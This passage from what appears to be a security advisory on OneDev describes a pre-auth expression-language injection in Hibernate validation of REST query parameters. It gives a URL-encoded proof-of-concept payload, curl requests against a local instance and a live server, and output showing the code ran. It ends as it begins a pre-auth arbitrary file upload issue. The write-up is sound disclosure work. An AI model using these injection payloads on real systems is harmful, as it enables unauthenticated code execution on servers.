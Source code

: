 <p>This would be vulnerable if EL interpolation is allowed and if the REST endpoint receives an unexpected query parameter. We can verify if this is the case with the following payload:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>${'test'.toUpperCase()}` -&gt; `%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d
</code></pre></div></div>

<p>Trying it locally:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>curl -X GET -H "Content-Type: application/json" http://localhost:6610/rest/projects\?%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d=bar
</code></pre></div></div>

<p>We get no response but an exception:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Caused by: org.glassfish.jersey.server.ContainerException: java.lang.NoSuchMethodError: javax.el.ELContext.notifyBeforeEvaluation(Ljava/lang/String;)
</code></pre></div></div>

<p>However in the stack trace we can find clues that Hibernate performed EL interpolation:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>at com.sun.el.lang.EvaluationContext.notifyBeforeEvaluation(EvaluationContext.java:131) ~[org.glassfish.javax.el-3.0.0.jar:3.0.0]
at com.sun.el.ValueExpressionImpl.getValue(ValueExpressionImpl.java:225) ~[org.glassfish.javax.el-3.0.0.jar:3.0.0]
at org.hibernate.validator.internal.engine.messageinterpolation.ElTermResolver.interpolate(ElTermResolver.java:65) ~[org.hibernate.hibernate-validator-5.3.6.Final.jar:5.3.6.Final]
at org.hibernate.validator.internal.engine.messageinterpolation.InterpolationTerm.interpolate(InterpolationTerm.java:64) ~[org.hibernate.hibernate-validator-5.3.6.Final.jar:5.3.6.Final]
</code></pre></div></div>

<p>This exception seems to be related to a misconfiguration in our docker dev container. Trying it on the <strong>onedev</strong> server (v3.2.9) we get our expression evaluated:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>curl -X GET -H "Content-Type: application/json"  https://code.onedev.io/rest/projects\?%24%7b%27%74%65%73%74%27%2e%74%6f%55%70%70%65%72%43%61%73%65%28%29%7d=bar
Unexpected query params: [TEST] (path = ProjectResource.query.&lt;cross-parameter&gt;, invalidValue = [null, null, null, org.glassfish.jersey.server.internal.routing.UriRoutingContext@5b27a361])
</code></pre></div></div>

<p>As we can see in the output, the Java code was evaluated and returned <code class="language-plaintext highlighter-rouge">TEST</code> in upper case.</p>

<p>This validation, and therefore the arbitrary code execution, happens before any authentication or authorization checks are enforced.</p>

<h4 id="impact-2">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-4-pre-auth-arbitrary-file-upload">Issue 4: Pre-Auth Arbitrary File Upload</h3>
<p><a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/web/component/markdown/AttachmentUploadServlet.java"><code class="language-plaintext highlighter-rouge">AttachmentUploadServlet</code></a> also saves user controlled data (<code class="language-plaintext highlighter-rouge">request.getInputStream()</code>) to a user specified location (<code class="language-plaintext highlighter-rouge">request.getHeader("File-Name")</code>):</p>
